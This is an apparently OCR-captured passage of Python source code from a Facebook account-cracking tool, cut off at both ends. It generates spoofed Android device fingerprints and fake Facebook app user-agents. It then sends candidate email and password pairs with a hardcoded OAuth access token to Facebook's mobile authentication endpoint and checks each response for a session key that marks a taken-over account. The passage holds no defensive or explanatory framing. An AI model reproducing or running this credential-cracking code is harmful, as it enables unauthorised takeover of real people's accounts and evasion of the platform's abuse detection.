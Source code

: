                         mmmm = random.choice(['Optimus Vu', 'OT-7025D', 'P10 Lite LTE', 'P2', 'P20 Lite', 'P30 Pro (Global)', 'P3400', 'P55 Max', 'P7 Max', 'P8 Lite', 'P9 Lite', 'Pacific 800i', 'Pearl 8100', 'Phoenix 2', 'Phone', 'Pixel', 'Pixel 3', 'Pixel XL', 'Pixi', 'Prada 3.0', 'Pre3', 'Primo GH7', 'Quad EVO Energy 5', 'Quantum 4', 'Radar 4G', 'Radar C110e', 'Realme 2', 'Red Rice', 'Redmi 2', 'Redmi 3', 'Redmi 4', 'Redmi 5', 'Redmi 5 Plus', 'Redmi 5A', 'Redmi 6', 'Redmi Note 3', 'Redmi Note 4', 'Redmi Note 5', 'Redmi S2', 'Redmi Y1', 'Redmi Y2', 'Rex 60', 'Rex 80', 'Rhyme', 'RM-560', 'Ruby', 'S4502M', 'S4505M', 'S4702M', 'S580', 'S616', 'S660', 'Sensation', 'SGH-E250', 'SGH-I547', 'SM-G485F', 'Spark', 'Star 3 Duos', 'Storm 9530', 'Stream', 'Stylo 2 Plus (T-Mobile)', 'Stylus 2', 'TM-4377', 'Torch 4G 9810'])
                        cph = random.choice(['CPH1979','CPH1983','CPH1987','CPH2005','CPH2009','CPH2015','CPH2059','CPH2061','CPH2065','CPH2069','CPH2071','CPH2073','CPH2077','CPH2091','CPH2095','CPH2099','CPH2137','CPH2139','CPH2145','CPH2161','CPH2185','CPH2201','CPH2209','CPH1801','CPH1803','CPH1805','CPH1809','CPH1827','CPH1837','CPH1851','CPH1853'])
                        network = random.choice(['Zong','null','Marshmallow','Telekom China'])
                        ua  = "[FBAN/FB4A;FBAV/"+str(random.randint(11,77))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(11,77)) +";FBBV/"+str(random.randint(1111111,7777777))+";Dalvik/2.1.0 (Linux; U; Android 10; VOG-L29 Build/HUAWEIVOG-L29) [FBAN/Orca-Android;FBAV/272.0.0.14.119;FBPN/com.facebook.orca;FBLC/es_ES;FBBV/228977692;FBCR/vodafone ES;FBMF/HUAWEI;FBBD/HUAWEI;FBDV/VOG-L29;FBSV/10;FBCA/arm64-v8a:null;FBDM/{density=3.0,width=1080,height=2265};FB_FW/1;]"
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sm=['GT-', 'SM-']
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                'adid': adid,
                                'format': 'json', 
                                'device_id': device_id,
                                'email': ids, 
                                'password': pas, 
                                'generate_analytics_claims': '1', 
                                'credentials_type': 'password', 
                                'source': 'login', 
                                'error_detail_type': 
                                'button_with_disabled', 
                                'enroll_misauth': 'false', 
                                'generate_session_cookies': '1',
                                'generate_machine_id': '1', 
                                'locale': 'fa_AF', 'client_country_code': 'AF',
                                'fb_api_req_friendly_name': 'authenticate'}
                        headers={
                                'User-Agent':ua,
                                'Accept-Encoding': 'gzip, deflate', 
                                'Accept': '*/*', 
                                'Connection': 'keep-alive', 
                                'Authorization':f'OAuth {accessToken}', 
                                'X-FB-Friendly-Name': 'authenticate', 
                                'X-FB-Connection-Type': 'unknown', 
                                'Content-Type': 'application/x-www-form-urlencoded', 
                                'X-FB-HTTP-Engine': 'Liger'
                                }
                        url = 'https://b-graph.facebook.com/auth/login'
                        twf = 'Login approval'+'s are on. '+'Expect an SMS'+' shortly with '+'a code to use'+' for log in'
                        po = requests.post(url,data=data,headers=headers).json()
                        if 'session_key' in po:
                                try:
                                        uid = po['uid']